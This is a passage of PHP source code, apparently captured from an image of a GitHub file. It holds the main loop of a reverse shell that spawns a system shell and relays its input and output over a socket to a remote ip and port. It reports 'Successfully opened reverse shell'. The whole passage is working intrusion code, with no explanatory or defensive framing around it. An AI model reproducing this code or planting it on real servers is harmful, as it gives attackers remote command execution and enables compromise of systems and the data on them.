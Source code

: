 ```php
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
```